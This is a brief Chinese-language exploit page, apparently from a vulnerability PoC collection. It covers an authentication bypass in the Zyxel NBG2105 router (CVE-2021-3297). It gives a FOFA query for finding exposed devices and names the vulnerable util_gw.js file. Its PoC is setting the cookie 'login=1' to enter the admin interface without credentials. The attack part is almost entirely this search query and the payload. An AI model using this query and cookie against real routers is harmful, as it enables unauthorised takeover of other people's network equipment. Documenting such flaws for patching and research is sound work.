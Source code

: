 # Zyxel NBG2105 身份验证绕过（CVE-2021-3297）

**FOFA：**

```
app="ZyXEL-NBG2105"
```

**漏洞代码：**

```
http://target/js/util_gw.js
```

![](images/16116664946838.jpg)

**PoC：**

```
Cookie: login=1;
只需要将cookie中login=0 修改为login=1即可直接进入管理界面。
```

![](images/16116665275577.jpg)


![-w595](images/16116665373943.jpg)


ref：

* https://forum.ywhack.com/thread-115035-1-1.html
* https://github.com/nieldk/vulnerabilities/blob/main/zyxel%20nbg2105/Admin%20bypass